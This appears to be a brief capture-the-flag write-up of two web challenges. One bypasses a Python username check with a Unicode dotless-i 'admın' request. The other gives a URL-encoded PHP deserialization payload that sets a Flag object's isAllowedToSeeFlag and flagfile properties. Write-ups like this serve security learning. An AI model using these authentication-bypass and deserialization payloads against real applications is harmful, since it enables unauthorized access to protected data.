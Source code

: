 # Tasks

## Unis Love Code

*Unicode problem :)*

We had to bypass the checks on the username while supplying the right one.

The problem lays here

   ```py
   username='ADMIN'
    check_funcs=["strip","lower"]
  def _check_access(self,u):
        for cf in UnisLoveCode.check_funcs:
            # u != admin
            if getattr(str,cf)(UnisLoveCode.username)==u:
                return False
        for c in u:
            if c in string.ascii_uppercase:
                return False
        # u.upper()== ADMIN
        return UnisLoveCode.username.upper()==u.upper()
```

how to bypass the checks here ? --> Use some Unicode fu U+013

```curl


POST / HTTP/1.1
Host: 52.59.124.14:10004
Content-Length: 15

username=admın
```

## Jsonify

show=true&obj={"class":"Flag","properties":{"isAllowedToSeeFlag":"b:1;"}}&flagfile=?

**How to byapss the setFlagFile ??**

there are two paths ( condition ) , bypass it or find a way to set the isAllowedToSeeFlag for the Flag class to true.

 ```php
 public function   setFlagFile($flagfile)
    {
        echo $flagfile;
        if (stristr($flagfile, "flag") || !file_exists($flagfile))
        {
            echo "ERROR:File is not valid!";
            return;
        }
        $this->flagfile = $flagfile;
    }
```

Actually no need to the *setFlagFile* doesn't interfere in the execution flow.all we have to do is set the object.flagfiel=./flag.php with the deserialization.

**final payload**

```show=true&obj=%7B%22class%22%3A%22Flag%22%2C%22properties%22%3A%7B%22isAllowedToSeeFlag%22%3A%22b%3A1%3B%22%2C%22flagfile%22%3A%22s%3A10%3A%5C%22.%2Fflag.php%5C%22%3B%22%7D%7D&flagfile=./flag.php``
